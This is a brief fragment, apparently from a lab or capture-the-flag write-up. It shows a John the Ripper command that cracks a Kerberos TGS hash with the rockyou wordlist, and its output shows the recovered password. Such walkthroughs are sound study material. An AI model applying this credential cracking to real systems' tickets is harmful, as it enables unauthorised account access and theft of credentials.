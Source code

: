 ### Crack Hash

```
john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Football#7       (?)
1g 0:00:00:05 DONE (2023-01-20 14:01) 0.1779g/s 1987Kp/s 1987Kc/s 1987KC/s Forever3!..Flubb3r
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```